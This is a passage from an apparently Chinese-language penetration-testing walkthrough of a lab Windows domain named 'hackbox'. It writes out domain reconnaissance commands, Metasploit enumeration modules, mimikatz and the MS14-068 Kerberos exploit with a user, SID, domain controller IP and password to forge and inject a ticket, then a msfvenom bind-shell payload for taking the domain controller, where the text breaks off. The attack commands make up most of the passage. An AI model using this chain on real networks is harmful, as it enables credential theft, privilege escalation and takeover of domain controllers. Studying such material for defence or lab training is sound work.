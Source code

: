 ```
net config workstation
查看当前的域环境
```

```
定位域控 run post/windows/gather/enum_domain
run post/windows/gather/enum_ad_computers
```

![image-20210215234818848](https://i.loli.net/2021/02/15/IVUldPoXa1v9niL.png)

信息收集

```
net time /domain 查看域控时间
net view 遍历信任主机
net view /domain 查看域
net view /domain:hackbox
net group /domain
```

域普通用户 创建票据 注入票据 访问dc的权限 得到高级权限

web 主机名  用户名 web

有时候 web系统管理员密码一样

```
mimikatz.exe
ms14-068.exe -u web@hackbox.com -s S-1-5-21-2005268815-658469957-1189185684-1103 -d 10.10.10.149 -p !@#Qwe456
kerberos::ptc TGT_web@hackbox.com.ccache
```



#### 0x08 制作票据

创建票据

```
ms14-068.exe -u web@hackbox.com -s S-1-5-21-2005268815-658469957-1189185684-1103 -d 10.10.10.149 -p !@#Qwe456
```

```
kerberos::purge 清理票据
kerberos::ptc TGT_web@hackbox.com.ccache 导入票据
```

![image-20210215114408603](https://i.loli.net/2021/02/15/RoVyhsGExdY3UQr.png)

可以访问域控了。

#### 0x09 拿下DC

```
msfvenom -p windows/meterpreter/bind_tcp  lport=13777 -f exe > bind.exe
```
